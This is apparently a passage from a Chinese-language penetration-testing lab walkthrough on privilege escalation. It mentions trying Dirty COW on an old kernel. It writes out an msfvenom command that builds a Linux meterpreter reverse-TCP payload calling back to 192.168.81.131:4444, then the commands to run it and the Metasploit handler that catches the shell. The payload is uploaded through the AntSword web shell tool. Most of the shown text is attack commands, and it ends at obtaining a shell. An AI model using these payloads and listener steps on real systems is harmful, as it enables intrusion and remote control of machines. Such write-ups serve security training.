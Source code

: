 ```
whoami
```

![image-20220315162948905](https://gitee.com/xxb667/img/raw/master/img/image-20220315162948905.png)

# 4.提取



内核较老，尝试利用脏牛

## 4.1 木马文件生成

MSF生成木马，并开启监听

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220315163654414](https://gitee.com/xxb667/img/raw/master/img/image-20220315163654414.png)



![image-20220315164444386](https://gitee.com/xxb667/img/raw/master/img/image-20220315164444386.png)

```
chmod +x 4444.elf
./4444.elf
```

![image-20220315170016973](https://gitee.com/xxb667/img/raw/master/img/image-20220315170016973.png)



kali设置监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

设置完后，在蚁剑上允许我们上传的payload文件

也就是**4444.elf**文件

![image-20220316091348767](https://gitee.com/xxb667/img/raw/master/img/image-20220316091348767.png)

获取shell

```
shell
```
